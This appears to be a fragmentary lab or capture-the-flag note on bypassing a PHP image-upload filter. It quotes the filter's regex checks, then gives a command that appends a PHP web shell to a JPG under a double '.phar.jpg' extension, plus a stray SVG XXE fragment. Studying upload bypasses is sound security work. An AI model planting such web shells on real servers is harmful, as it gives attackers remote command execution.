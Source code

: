 ```php
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```
- From this Source code
	- /contact/user_feedback_submissions/240610_test_image.phar.jpg
- Download a sample jpg image and 
		``echo '<?php system($_REQUEST['cmd']); ?>' >> test_image.phar.jpg``

![[Pasted image 20240610183959.png]]




<svg>&xxe;</svg>










